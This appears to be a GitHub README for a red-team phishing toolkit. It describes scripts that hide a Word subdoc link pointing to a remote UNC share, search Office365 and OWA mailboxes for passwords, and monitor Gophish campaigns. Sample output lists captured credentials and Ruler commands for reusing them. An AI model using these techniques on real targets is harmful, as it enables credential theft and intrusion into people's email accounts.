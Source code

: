 # phishing-scripts
Some miscellaneous phishing scripts

| Script | Description |
| --- | --- |
| refLinksToWhite.ps1 | This script is to be used with 'subdoc_injector.py' as mentioned in https://rhinosecuritylabs.com/research/abusing-microsoft-word-features-phishing-subdoc/. The script will change the color of Subdoc reference link to 'white' and saves it<br>Example: .\test.ps1 z:\tmp\test.docx \\1.1.1.1\docs\ |
| o365.py | This script search/download emails/attachments matching keywords from Office365 email accounts|  
| gophishauto.py | This script monitors Gophish campaigns and sends out a Slack/Pushover notification when a set of credentials is captured.<br>It displays some statics from the campaign (e.g % of users who read the email/clicked the link/entered credentials as well as who they are).<br> It also displays the list of credentials captured so far.<br>It also tries to determine the OS used by the users based on the User Agent information [some minor bugs pending to be fixed]|
| owaDump<br>https://github.com/milo2012/owaDump | Logins into Outlook Web Access servers and search Email Accounts (OWA) for Passwords, PAN numbers as well as other Keywords|
  
  
  
  
**Sample output from gophishauto.py**
```
$  python gophishauto3.py -a 212345436346 -i 192.168.0.181 -p 3333 --ssl -n 14 

*** Results from Gophish Campaign - Company1 ***
[*] List of users who read the email
[+] Campaign Status - Company1
Total Targets: 10 (100%) 
Email Unread:  4 (40%)
Email Opened:  6 (60%)
Clicked Link:  3 (30%)
Credentials Captured: 2 (20%)

[+] Credentials Captured from Gophish
Email                               Username                            Password
----------------------------------  ----------------------------------  ------------
xxx@yahoo.com     		    xxx@yahoo.com    			Password1
yyy@yahoo.com   		    yyy@yahoo.com   			Password1

[+] Ruler
./ruler-osx64   --email xxx@yahoo.com -u xxx@yahoo.com -p 'Password1' c
./ruler-osx64   --email yyy@yahoo.com -u yyy@yahoo.com -p 'Password1' c

[*] List of users who read the email
aaa@yahoo.com
bbb@yahoo.com
ccc@yahoo.com
ddd@yahoo.com

[+] List of users who click the link
aaa@yahoo.com
bbb@yahoo.com
ccc@yahoo.com

[+] Unique Browser User Agents (OS Matching)
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36[Mac OS X 10.12.6]
Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 [Windows 7]

[+] Browser User Agents
----------------------------------  ------------------------------------------------------------------------------------------------------------------------
xxx@yahoo.com     Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
yyy@yahoo.com  	  Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36
----------------------------------  ------------------------------------------------------------------------------------------------------------------------
```
